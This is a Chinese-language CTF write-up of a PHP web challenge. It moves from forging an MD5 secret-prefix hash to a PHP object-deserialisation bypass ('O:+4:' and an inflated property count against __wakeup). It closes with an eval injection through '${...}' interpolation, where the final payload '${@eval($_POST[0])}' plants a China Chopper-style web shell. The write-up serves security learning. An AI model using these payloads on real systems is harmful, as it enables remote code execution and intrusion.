 ```yaml
---
title: Hash
date: 2018-02-05 00:00:00
categories:
- CTF/Web
tags: 百度杯十月
---
```


## url参数

```html
index.php?key=123&hash=f9109d5f83921a551cf859f853afe7bb

you are 123;if you are not 123,you can get the flag<br>

<!--$hash=md5($sign.$key);the length of $sign is 8
```

- cmd5解一下这个hash：kkkkkk01123（不知道爆破要多久？）
- 随便构造一个key比如456

```php
<?php
echo md5("kkkkkk01456");//2a5414055268d6f1f82288af38e5ce4e
?>
```

- 提交一下，得到提示`Gu3ss_m3_h2h2.php`

```html
index.php?key=456&hash=2a5414055268d6f1f82288af38e5ce4e
```

## 反序列化绕过
Gu3ss_m3_h2h2.php源码

```php
<?php 
class Demo { 
    private $file = 'Gu3ss_m3_h2h2.php'; 

    public function __construct($file) { 
        $this->file = $file; 
    } 

    function __destruct() { 
        echo @highlight_file($this->file, true); 
    } 

    function __wakeup() { 
        if ($this->file != 'Gu3ss_m3_h2h2.php') { 
            //the secret is in the f15g_1s_here.php 
            $this->file = 'Gu3ss_m3_h2h2.php'; 
        } 
    } 
} 

if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else { 

        @unserialize($var); 
    } 
} else { 
    highlight_file("Gu3ss_m3_h2h2.php"); 
} 
?>
```

- 构造反序列化字符串

```php

<?php 
class Demo { 
    private $file = 'Gu3ss_m3_h2h2.php'; 

    public function __construct($file) { 
        $this->file = $file; 
    } 

    function __destruct() { 
        echo @highlight_file($this->file, true); 
    } 

    function __wakeup() { 
        if ($this->file != 'Gu3ss_m3_h2h2.php') { 
            //the secret is in the f15g_1s_here.php 
            $this->file = 'Gu3ss_m3_h2h2.php'; 
        } 
    } 
} 

$a = new Demo("f15g_1s_here.php");
echo serialize($a)."\n";
echo base64_encode(serialize($a));
?>
```

- 这里如果直接打印字符串有有一个奇怪的输出:  
O:4:"Demo":1:{s:10:==NUL==Demo==NUL==file";s:16:"f15g_1s_here.php";}  

有两个NUL（%00）字符导致对整个字符串操作起来很麻烦，复制的时候会被截断。后来知道这个==NUL==字符是对类中private这种私有成员的序列化后的一个标记。所以最好的办法就是给字符串转成base64然后在burp里的编码工具操作，可以转成ascii和修改十六进制。

> 这里有更奇怪的实验，我先把file的属性改成public，生成一个序列化字符串，然后我再发file的属性改回private，然后用刚才那个字符串反序列化后居然生成可两个对象。（待讨论）

- 绕过正则匹配

```php
preg_match('/[oc]:\d+:/i', $var);
```

> 1. [xyz]
字符集合。匹配所包含的任意一个字符。例如，“[abc]”可以匹配“plain”中的“a”
> 2. ：就是冒号
> 3. \d是匹配一个数字字符相当于[0-9]
> 4. +匹配前面子表达式一次或多次

所以这个其实匹配了序列化字符串开始的部分O:4:  
尝试了O:0x4:失败  
最后用O:+4:绕过

O:+4:"Demo":1:{s:10:==NUL==Demo==NUL==file";s:16:"f15g_1s_here.php";} 

- 绕过__wakeup()方法  

修改序列化字符串中对象的个数，使其不正确即可

O:+4:"Demo":2:{s:10:==NUL==Demo==NUL==file";s:16:"f15g_1s_here.php";} 

- base64编码后提交（burp工具里改）  

从最早没有修改过的base64入手

```
Tzo0OiJEZW1vIjoxOntzOjEwOiIARGVtbwBmaWxlIjtzOjE2OiJmMTVnXzFzX2hlcmUucGhwIjt9
```

改完如下，提交得到f15g_1s_here.php源码
```
TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czoxNjoiZjE1Z18xc19oZXJlLnBocCI7fQ==
```

## 绕过addslashes

f15g_1s_here.php源码

```php
<?php 
if (isset($_GET['val'])) { 
    $val = $_GET['val']; 
    eval('$value="' . addslashes($val) . '";'); 
} else { 
    die('hahaha!'); 
} 
?>
```

- 分析最后会拼出一个$value="xxxx";的php语句来执行
- addslashes()这个方法会在单引号（'）、双引号（"）、反斜线（\）与NUL（NULL字符）前添加反斜杠。
- 想用宽字节把双引号逃逸出来，然后就可以命令注入了。类似`%df%22phpinfo();//`这种，发现并没用。

## php黑魔法之双引号

> 这里其实用到一个php的黑魔法就是在双引号包含的字符串中运行一个函数。例子如下:

```php
<?php
$a = 'hello';
echo "$a";
?>
```
这里会输出`hello`，由于双引号的包裹可以导致$符号后面的字符被理解为变量，而打印出变量内容。单引号无效。

---

```php
<?php
$a = 'hello';
$$a = 'world';
echo "$a";
echo "$$a";
?>
```
输出为`hello$hello`，说明双引号中的连用的$符号只能被解析一次，不能被嵌套。

---

```php
<?php
$a = 'hello';
$$a = 'world';
echo "$a";
echo "${$a}";
?>
```

输出为`helloworld`，这里用大括号将$符号进行隔开，使其可以被嵌套解析。这里大括号的作用是在变量间接引用中进行定界。

---

```php
<?php
$var="${phpinfo()}";
?>
```

那么问题来了，这里为什么会执行phpinfo()呢？
- 首先双引号包裹并存在$符号，于是$等着被解析成变量
- 存在大括号定界，$符号的的变量名就是{}中的内容了
- 但是大括号里是一个函数，于是该函数的返回结果才是$认为的变量名（php就是这么奇怪），于是函数被运行。

综上php双引号中可以直接执行函数！将函数用${}包裹即可！  

```php
//最后这题payload如下,然后菜刀
?val=${@eval($_POST[0])}
```
